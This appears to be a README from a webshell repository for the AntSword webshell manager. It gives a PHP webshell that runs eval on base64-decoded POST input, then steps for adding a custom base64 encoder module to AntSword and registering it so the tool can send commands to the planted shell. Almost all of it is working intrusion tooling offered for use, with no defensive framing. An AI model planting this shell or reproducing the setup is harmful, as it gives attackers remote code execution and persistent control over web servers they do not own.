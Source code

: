 shell code
```php
<?php 
$a = $_POST['n985de9'];
if(isset($a)) {
    eval(base64_decode($a));
}
?>
```

add : source/core/php/encoder/mybase64.js
[](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523140225737.png)

```js
module.exports = (pwd, data) => {
  data[pwd] = new Buffer(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

edit : sources/core/php/index.js < add some code: regedit mybase64.js
[](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523132374985.png)

```js
  get encoders() {
    return ['chr', 'base64', 'mybase64'];
  }
```
restart antsword, and add shell, select mybase64 encode  for this shell code.
[](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523122747980.png)

[](https://raw.githubusercontent.com/tennc/webshell/master/antSword/2016051523124431883.png)
